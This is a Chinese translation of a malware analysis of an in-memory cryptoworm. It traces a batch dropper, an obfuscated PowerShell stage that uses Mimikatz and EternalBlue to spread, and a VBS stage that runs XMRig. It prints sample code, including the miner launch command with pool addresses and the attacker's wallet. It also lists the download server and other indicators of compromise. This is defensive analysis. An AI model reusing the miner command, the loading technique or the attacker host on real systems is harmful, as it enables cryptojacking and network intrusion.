 > 原文链接: https://www.anquanke.com//post/id/87051 


# 【技术分享】Cryptoworm：一款功能强大的加密货币挖矿恶意软件分析


                                阅读量   
                                **192159**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：securityaffairs.co
                                <br>原文地址：[http://securityaffairs.co/wordpress/63488/malware/advanced-memory-cryptoworm.html](http://securityaffairs.co/wordpress/63488/malware/advanced-memory-cryptoworm.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t01d3b5c76e27b2a0b0.jpg)](https://p1.ssl.qhimg.com/t01d3b5c76e27b2a0b0.jpg)





译者：[blueSky](http://bobao.360.cn/member/contribute?uid=1233662000)

预估稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿 

<br>

**前言**

****

本文我将分享一个关于某“有趣”恶意软件的分析，用“有趣”来形容该恶意软件，是因为该恶意软件拥有巧妙的漏洞利用能力、代码混淆能力以及使用了先进技术来窃取凭据和运行命令。

下图展示了整个攻击路径的总体情况。正如你在图中所看到的，由于整个攻击阶段中包含了很多特定的操作，因此整个攻击流程看起来非常的复杂。初始阶段开始于诱骗缺乏经验的用户点击一个初始阶段文件，我将该文件（在本例中）命名为y1.bat。目前，电子邮件载体是攻击者最喜欢使用的载体，它能轻易地被用来传递恶意内容。一旦初始阶段开始运行，它会下载并运行一个叫做info6.ps1的第二阶段文件，该文件是一个严重混淆过的PowerShell脚本，通过直接在代码体上解码混淆代码，我们可以获取三个内部资源模块：

1. Mimikatz.dll：这个模块用来窃取用户的管理凭据。

2. Utilities：这个模块用来扫描内网从而传播感染，它被用来运行几个内部工具，例如解码混淆例程、数组排序和运行漏洞程序，该模块也被用来生成并执行一个叫做info.vbs的文件。

3. Exploits：这个模块是由一些已知的漏洞程序组成的集合，例如在初始阶段的攻击中，为了感染内部机器用到的[eternalblue7_exploit](https://gist.github.com/worawit/bd04bad3cd231474763b873df081c09a) 和 [eternal_blue_powershell](https://github.com/tevora-threat/eternal_blue_powershell/blob/master/EternalBlue.ps1) 这两款工具。

 [![](https://p3.ssl.qhimg.com/t0188a7ee69378e8584.png)](https://p3.ssl.qhimg.com/t0188a7ee69378e8584.png)

全部阶段的攻击路径

info.vbs文件在运行的过程中会生成另外一个称为XMRig的文件，该文件是一个开源的Monero CPU Miner ，可以在GitHub上找到。XMRig模块会试图通过利用Exploit模块来扫描和攻击内部资源来传播自身，与此同时，该模块采用Monero加密方式，通过窃取受害者的资源来给攻击者提供新的“crypto money”。

<br>

**恶意软件分析**

****

攻击者将一封包含bat文件的email 或 message 传播给受害者，一旦用户点击了这个 bat文件，它将运行以下的命令使得PowerShell 能够下载并运行一个来自http://118.184.48.95:8000/的叫做info6.ps1 的脚本。

 [![](https://p2.ssl.qhimg.com/t01a139b071fbbd2288.png)](https://p2.ssl.qhimg.com/t01a139b071fbbd2288.png)

阶段1：下载并运行

下载的PowerShell文件被清晰地分为两个部分，它们都是被混淆过的。下图显示了两个区域，我将其命名为上半部份（在空行上方），和下半部分（空行下方）。

 [![](https://p4.ssl.qhimg.com/t01ce10a2213d5e6b66.png)](https://p4.ssl.qhimg.com/t01ce10a2213d5e6b66.png)

阶段2：两个待探查的部分

上半部份看起来很像是一个Base64编码的文本文件，下半部份看起来似乎是一个手工编写的编码函数，幸运的是，这个函数似乎是用明文追加到这个文件的尾部的。通过编辑这个函数，能够做到以下事情：能在优化解码过程中让已解码的文本文件直接被存到一个指定文件夹。下图显示了解码后的下半部分内容。

[![](https://p3.ssl.qhimg.com/t01c453c336e1e94fec.png)](https://p3.ssl.qhimg.com/t01c453c336e1e94fec.png)

 解码第二阶段中的下半部分

通过分析这部分的代码，可以很容易得出，该函数通过对当前内容执行子字符串操作，可以很容易地从文件自身动态的提取需要使用的主要功能。



```
$funs=$fa.SubsTrIng(0,406492)
$mimi=$fa.sUBStrInG(406494,1131864)
$mon=$fa.suBstrING(1538360,356352)
$vcp=$fa.sUBStRiNG(1894714,880172)
$vcr=$fa.sUBstrINg(2774888,1284312)
$sc=$fa.sUBsTrinG(4059202)
```

$fa变量的值与之相关的所有函数都是放在上半部分的，它们解码后如下图所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c63a034b4c6d1d79.png)

解码后的上半部分

第二阶段的上半部分代码是从Kevin Robertson (Irken)处复制来的，这个攻击者从Irken那里套用了很多有用的部分，包括Invoke-TheHas例程，它可以通过SMB被用来运行命令或具有特殊权限的代码。

在同一个阶段（第二阶段的下半部分），我们找到了一行非常有趣的代码： NTLM= Get-creds mimi ，此处Get-creds函数（它来自Based64编码的上半部分）的运行采用了反射技术，即一个DLL函数。所以从定义上讲，mimi 变量必须是一个包含在代码中某处的DLL文件。让我们通过运行下列代码来找到它：$fa.sUBStrInG(406494,1131864) ，此处的406494是起始字符，而1131864是结束字符，它们被解读后将指向一个动态链接库中。幸运的是，这个生成的DLL是一个知名的库，它广泛地被用于Mimikatz渗透测试中。所以以下事实是非常清楚的：攻击者使用了Mimikatz库来抓取用户密码（最终会抓取管理员密码）。一旦密码窃取动作完成，Malware会开始扫描内网中的已知漏洞，例如MS17/10。我发现的这个漏洞程序是套用的tevora-thrat 和 woravit，因为它们具有相同的代码、注释和变量名。如果这个恶意软件（Malware）找到了一个本地网络的漏洞，它会试图通过使用EthernalBlue注入其自身(info6.ps1)来感染这台机器，之后它会开始第二阶段的运行。

在同一个线程上恶意软件生成并执行一个.vbs文件（第三阶段），然后它通过服务器中的WMIClass一直留存下去。

[![](https://p2.ssl.qhimg.com/t01addd470f35684ecd.png)](https://p2.ssl.qhimg.com/t01addd470f35684ecd.png)

引入第三阶段

info.vbs 从其自身生成并执行一个编译版本的XMRIG，然后用“mimetic”字符串为其重命名为taskservice.exe. 一旦编译好的PE 文件 (XMRig) 被置于内存中，新的阶段就会通过运行下列命令来启动它。

 [![](https://p5.ssl.qhimg.com/t0156f69dbcbe7a66f6.png)](https://p5.ssl.qhimg.com/t0156f69dbcbe7a66f6.png)

第三阶段Monero Miner 的执行

Monero 的文本地址在上面的代码中清晰可见。但目前这个地址无法追踪，地址信息如下所示： 

46CJt5F7qiJiNhAFnSPN1G7BMTftxtpikUjt8QXRFwFH2c3e1h6QdJA5dFYpTXK27dEL9RN3H2vLc6eG2wGahxpBK5zmCuE

使用的服务器是：stratum+tcp://pool.supportxmr.com:80

```
w.run “%temp%taskservice.exe  -B
 -o stratum+tcp://pool.supportxmr.com:80 -u  46CJt5F7qiJiNhAFnSPN1G7BMTftxtpikUjt8QXRFwFH2c3e1h6QdJA5dFYpTXK27dEL9RN3H2vLc6eG2wGahxpBK5zmCuE 
 -o stratum+tcp://mine.xmrpool.net:80  -u  46CJt5F7qiJiNhAFnSPN1G7BMTftxtpikUjt8QXRFwFH2c3e1h6QdJA5dFYpTXK27dEL9RN3H2vLc6eG2wGahxpBK5zmCuE 
 -o stratum+tcp://pool.minemonero.pro:80   -u  46CJt5F7qiJiNhAFnSPN1G7BMTftxtpikUjt8QXRFwFH2c3e1h6QdJA5dFYpTXK27dEL9RN3H2vLc6eG2wGahxpBK5zmCuE -p x” ,0
```



**IOCs**

****

– URL: http://118.184.48.95:8000/

– Monero Address: 46CJt5F7qiJiNhAFnSPN1G7BMTftxtpikUjt8QXRFwFH2c3e1h6QdJA5dFYpTXK27dEL9RN3H2vLc6eG2wGahxpBK5zmCuE

– Sha256: 19e15a4288e109405f0181d921d3645e4622c87c4050004357355b7a9bf862cc

– Sha256: 038d4ef30a0bfebe3bfd48a5b6fed1b47d1e9b2ed737e8ca0447d6b1848ce309

<br>

**结论**

****

我们目前分析的是最初的且复杂的加密货币挖矿恶意软件的传送过程。所有人可能都知道CryptoMine, BitCoinMiner 和 Adylkuzz 等恶意软件，它们基本上是在目标机器上生成一个BitCoinMiner，其实货币类恶意软件传送的时候是没有传播模块、exploit模块，也没有使用无文件的技术。**但是，这个Monero CPU Miner在传送的时候就包括了针对内存inflation的高级技术，解压后的恶意软件并不存在硬盘上（这是一种绕过某些杀毒软件的技术）而是直接在内存解压，然后直接在内存调用其自身。**我们可以将这个恶意软件视为内存中的最后一代-CryptoWorm。从我个人的角度来看，另一个有趣的发现来自于第一阶段。为什么攻击者要保留这个没有用的阶段呢？看起来这个阶段完全没有用，它就是一个生成器，它既没有控制功能也不释放任何的drop程序。攻击者可以在第一阶段直接传输第二阶段的内容，还能保证网络指纹更隐秘，所以为什么攻击者要通过第一阶段来传送这个CryptoWorm呢？也许第一阶段是某个更大的框架的一部分？或许我们正在面对的是新一代的恶意软件，现在我或许还不能够回答这个问题，反之我希望读者们可以认真来思考这个问题。
